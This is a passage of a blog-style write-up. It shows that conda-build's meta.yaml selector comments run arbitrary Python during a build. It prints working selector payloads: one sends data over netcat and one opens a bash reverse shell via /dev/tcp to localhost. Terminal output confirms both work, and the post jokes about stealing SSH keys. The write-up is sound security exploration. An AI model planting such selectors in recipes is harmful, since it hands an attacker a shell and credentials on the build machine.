 ```yaml
skip: True # [exec('''import os; os.system("sh -c 'echo netnya | nc localhost 12345'")''') or True]
```

In a separate shell, I opened a server:

```
(base) [astrid@lab test]$ nc -l localhost 12345
```

Performing a build...

```
(base) [astrid@lab test]$ conda build .
WARNING: No numpy version specified in conda_build_config.yaml.  Falling back to default numpy value of 1.22
```

... conda froze! But in the other tab, I got the message.

```
(base) [astrid@lab test]$ nc -l localhost 12345
netnya
```

I typed `asdfasdf` into the server tab, and got data back in the builder.

```
(base) [astrid@lab test]$ conda build .
WARNING: No numpy version specified in conda_build_config.yaml.  Falling back to default numpy value of 1.22
asdfasdf
```

## Making it spawn a reverse shell

This is, of course, the logical final step. In fact, this selector doesn't even
need netcat.

```yaml
skip: True # [exec('''import os; os.system("bash -c 'bash -i >& /dev/tcp/localhost/12345  0>&1'")''') or True]
```

## Exploitability?

Honestly, I don't think that there's much that's exploitable about this that
isn't already exploitable. As far as I know, `conda build` doesn't do
containerization or other security measures like that, so any amount of
exploitation I can do here is probably already exploitable by the build script.

I mean, I guess I _could_ see a potential case where `conda build` has a command
that spits out the `meta.yaml` after it has done its jinja and selector
postprocessing, but without executing any scripts, and the user would expect
that no arbitrary code execution is happening. In practice, I don't think that's
really common -- most people probably just run `conda build`.

However, this is great for recipe developers -- this mechanism lets you make
your build logic be non-deterministic, and have arbitrarily-complicated logic
and I/O! You can do all sorts of things, like don't build if the user's name
starts with an "a," combine this with curl and an HTTP server to act as a
killswitch for builds, make the metadata evaluation step "borrow" peoples' SSH
keys, and more!


[pr-1753]: https://github.com/conda/conda-build/pull/1753
[conda-build-repo]: https://github.com/conda/conda-build
[qc-github-org]: https://github.com/quantifiedcode
[qc-broken-website]: http://www.quantifiedcode.com/
